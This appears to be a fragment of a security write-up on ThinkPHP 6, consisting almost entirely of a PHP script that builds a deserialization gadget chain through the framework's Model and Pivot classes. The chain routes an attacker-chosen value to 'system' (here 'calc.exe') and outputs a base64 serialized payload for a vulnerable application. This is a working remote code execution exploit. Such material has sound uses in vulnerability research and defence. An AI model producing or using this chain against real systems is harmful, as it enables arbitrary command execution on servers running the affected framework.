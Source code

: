 <img src="./images/tp6-pop-1-13.png" alt="">

```php
<?php
namespace think;
abstract class Model{
    use model\concern\Attribute;
    use model\concern\ModelEvent;
    protected $table;
    private $force;
    private $exists;
    private $lazySave;
    private $data = [];
    function __construct($obj){
        $this->table = $obj;
        $this->force = true;
        $this->exists = true;
        $this->lazySave = true;
        $this->data = ["H3rmesk1t" => "calc.exe"];
    }
}

namespace think\model\concern;
trait ModelEvent{
    protected $withEvent = true;
    protected $visible = ["H3rmesk1t" => "1"];
}
trait Attribute{
    private $withAttr = ["H3rmesk1t" => "system"];
}

namespace think\model;
use think\Model;
class Pivot extends Model{
    function __constru
ct($obj = ''){
        parent::__construct($obj);
    }
}

echo base64_encode(serialize(new Pivot(new Pivot())));
?>
```